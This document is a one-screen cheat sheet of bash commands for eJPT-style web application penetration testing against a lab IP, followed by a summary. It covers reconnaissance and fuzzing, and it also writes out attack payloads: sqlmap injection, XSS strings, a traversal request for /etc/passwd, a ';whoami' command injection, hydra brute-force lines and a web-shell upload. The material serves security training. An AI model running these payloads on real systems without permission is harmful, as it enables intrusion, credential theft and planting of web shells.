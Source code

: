 # Minimal cheat sheet (one-screen flow)
```bash
# 0) Setup
export TARGET=10.10.10.10; export BASE_URL=http://$TARGET

# 1) Baseline
curl -sI -L "$BASE_URL"; curl -sL "$BASE_URL/robots.txt"; curl -sL "$BASE_URL/sitemap.xml"
whatweb "$BASE_URL"
nmap -Pn -sV -p80,443,8080,8443 --script http-title,http-headers,http-methods,http-enum "$TARGET"

# 2) Discovery
gobuster dir -u "$BASE_URL" -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x php,txt,js,html -t 50 -o gobuster.txt
ffuf -u "$BASE_URL/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -e .php,.txt,.js -mc 200,204,301,302,401,403 -t 50

# 3) Params
arjun -u "$BASE_URL/index.php" -oT arjun.txt
ffuf -u "$BASE_URL/search?FUZZ=test" -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -mc 200,301,302

# 4) Methods and auth
curl -i -X OPTIONS "$BASE_URL"
# hydra examples (only if allowed):
# hydra -L users.txt -P passwords.txt "$TARGET" http-get /admin/
# hydra -L users.txt -P passwords.txt "$TARGET" http-post-form "/login.php:username=^USER^&password=^PASS^:F=Invalid"

# 5) SQLi
sqlmap -u "$BASE_URL/items.php?id=1" --batch --risk=2 --level=2 --dbs

# 6) XSS quick tests
# Inject into parameters/forms: <script>alert(1)</script>  "><svg/onload=alert(1)>

# 7) LFI / traversal
curl -s "$BASE_URL/view?file=../../../../etc/passwd" | head

# 8) Command injection (only if endpoint suggests OS commands)
curl -s "$BASE_URL/ping?host=127.0.0.1;whoami"

# 9) Upload (lab)
curl -s -F "file=@shell.php;type=image/jpeg" "$BASE_URL/upload.php" -i
```

# Summary
Without the transcript, this note outlines a practical eJPT-style web app testing workflow that starts with lawful scoping, fingerprints the target, discovers content and parameters, and then validates common vulnerabilities through safe, minimal PoCs. The toolset is intentionally lightweight (Burp/ZAP, nmap, whatweb, gobuster/ffuf, Nikto, curl, sqlmap) and the commands are copy-paste-ready with placeholders. Use this as a starting checklist and adapt payloads/filters to the specific application behavior you observe in your intercepting proxy.